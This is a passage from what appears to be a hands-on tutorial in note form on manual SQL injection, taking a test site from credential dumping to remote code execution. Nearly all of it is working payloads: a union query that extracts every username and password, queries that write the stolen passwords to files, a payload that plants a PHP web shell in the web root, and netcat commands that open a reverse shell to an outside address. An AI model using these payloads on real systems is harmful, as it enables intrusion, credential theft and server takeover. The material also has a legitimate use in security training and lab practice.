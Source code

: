 ![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled%201.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled%201.png)

15. To retrieve all usernames and password from table users

Payload - **?id=-99' union select 1,group_concat(username),group_concat(password) from users --+**

![Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled%202.png](Manual%20Error%20based%20SQL%20Injection%20f1dc8dabc2d44afeb963d336e8556235/Untitled%202.png)


### SQL Injection to RCE (Remote Code Execution)

1. Retrieve data from table user.

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled.png)

2. To save result use command -  **select * from users into outfile "/tmp/sql_file";**

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%201.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%201.png)

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%202.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%202.png)

3. To save password in temp folder.

Payload- **?id=-99' union select 1,2,password from users into outfile "/tmp/cred" --+** 

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%203.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%203.png)

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%204.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%204.png)

       Payload -  **?id=-99' union select 1,2,"Awesome" into outfile "/tmp/cred1" --+**

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%205.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%205.png)

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%206.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%206.png)

#### 4. **RCE Payload**

Payload- **?id=-99' union select 1,2,"<?php echo system($_GET['cmd']) ?>" into outfile "/var/www/html/write/shell.php" --+**

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%207.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%207.png)

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%208.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%208.png)

![SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%209.png](SQL%20Injection%20to%20RCE%20Remote%20Code%20Execution%208c2959730a1a4ca8966967ded111c688/Untitled%209.png)


### RCE to Reverse shell

a. Start listening on port using nc command  **nc -nlvp 6001**

![RCE%20to%20Reverse%20shell%20a7a9c227a7ed4d0e8895ff3315089f6b/Untitled.png](RCE%20to%20Reverse%20shell%20a7a9c227a7ed4d0e8895ff3315089f6b/Untitled.png)

b. use command **nc -e /bin/bash 192.168.1.7 6001 to take reverse shell.**
